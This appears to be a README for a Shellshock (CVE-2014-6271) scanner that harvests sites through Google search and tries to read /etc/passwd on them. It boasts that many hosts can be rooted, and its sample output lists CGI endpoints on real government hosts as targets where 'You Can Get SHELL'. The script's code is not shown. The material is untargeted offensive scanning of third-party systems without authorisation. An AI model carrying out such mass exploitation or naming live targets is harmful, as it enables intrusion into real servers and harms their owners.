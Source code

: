 Prerequisite
============

1. `sudo pip install shell`
2. install google python search.  https://github.com/MarioVilas/google

Run
===
I use google to search first 1000 sites and try to get the `/etc/passwd`
After tesing, there are many many many host that can be rooted!!!!
By the way, this is only a proto, it has false positives.

Output like this:
if second field is `!!!`, then You Can Get SHELL!

```
$ python shellshock.py
0 --- http://nomad3.ncep.noaa.gov/cgi-bin/pdisp_sst.sh
1 --- http://nomad5.ncep.noaa.gov/cgi-bin/pdisp_gfs.sh?ctlfile=gfs_00z.ctl&povlp=noovlp&ptype=map&dir
```

References
===========
http://vonnyfly.github.io/
https://www.invisiblethreat.ca/2014/09/cve-2014-6271/
